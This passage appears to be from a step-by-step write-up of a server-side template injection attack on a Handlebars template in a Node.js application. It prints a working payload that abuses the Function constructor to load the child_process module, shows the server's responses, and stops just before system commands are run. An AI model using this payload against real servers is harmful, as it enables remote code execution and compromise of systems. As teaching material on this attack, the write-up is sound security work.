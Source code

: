 
    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
        [object Object]

    </p>


No error this time either and we see an extra object at the end of the response, which means the property is indeed available. Now lets attempt to call `require` and load a module. We can load the `child_process` module as it is available on default Node.js installations and can be used to execute system commands.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
	  {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

In the response:

    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            [object Object]

    </p>



The `require` object has been called successfully and the `child_process` module loaded. Let's now attempt to run system commands.
